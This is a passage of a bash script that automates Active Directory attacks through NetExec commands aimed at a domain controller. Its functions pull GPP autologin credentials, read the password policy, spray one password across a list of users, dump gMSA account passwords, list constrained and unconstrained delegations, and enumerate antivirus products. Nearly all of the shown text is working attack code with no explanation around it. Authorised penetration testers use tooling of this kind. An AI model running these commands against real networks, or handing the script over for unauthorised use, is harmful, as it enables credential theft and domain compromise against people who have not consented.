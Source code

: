 ```bash
		nxc smb $dc_hostname -u $user -p $password -k -M gpp_autologin
	fi	
	result
}

function get_password_policy {
	if [ $auth_protocol == "KERBEROS" ]
	then
		nxc smb $dc_hostname -u $user -p $password -k --pass-pol | tee pass_pol.txt
	else
		nxc smb $dc_ip -u $user -p $password --pass-pol | tee pass_pol.txt
	fi
	result
}

function password_spraying {
	if [ $auth_protocol == "KERBEROS" ]
	then
		nxc smb $dc_hostname -u ad_users.txt -p $password -k --kdcHost $dc_hostname --continue-on-success | grep +
	else
		nxc smb $dc_ip -u ad_users.txt -p $password --continue-on-success | grep +
	fi
	result
}

function get_gMSA {
	if [ $auth_protocol == "KERBEROS" ]
	then
		nxc ldap $dc_hostname -u $user -p $password -k --gmsa | tee gMSA_accounts.txt
	else
		nxc ldap $dc_ip -u $user -p $password --gmsa | tee gMSA_accounts.txt
	fi
	result
}

function get_delegations {
	if [ $auth_protocol == "KERBEROS" ]
	then
		echo -e "$YELLOW Constrained Delegations :$NOCOLOR"
		nxc ldap $dc_hostname -u $user -p $password -k --find-delegation
		echo -e "$YELLOW Unconstrained Delegations :$NOCOLOR"
		nxc ldap $dc_hostname -u $user -p $password -k "--trusted-for-delegation"
	else
		echo -e "$YELLOW Constrained Delegations :$NOCOLOR"
		nxc ldap $dc_ip -u $user -p $password --find-delegation
		echo -e "$YELLOW Unconstrained Delegations :$NOCOLOR"
		nxc ldap $dc_ip -u $user -p $password "--trusted-for-delegation"
	fi
	result
}

function enum_AV {
	if [ $auth_protocol == "KERBEROS" ]
	then
		nxc smb $dc_hostname -u $user -p $password -k -M enum_av
	else
		nxc smb $dc_ip -u $user -p $password -M enum_av
	fi
}

function cve_check {
```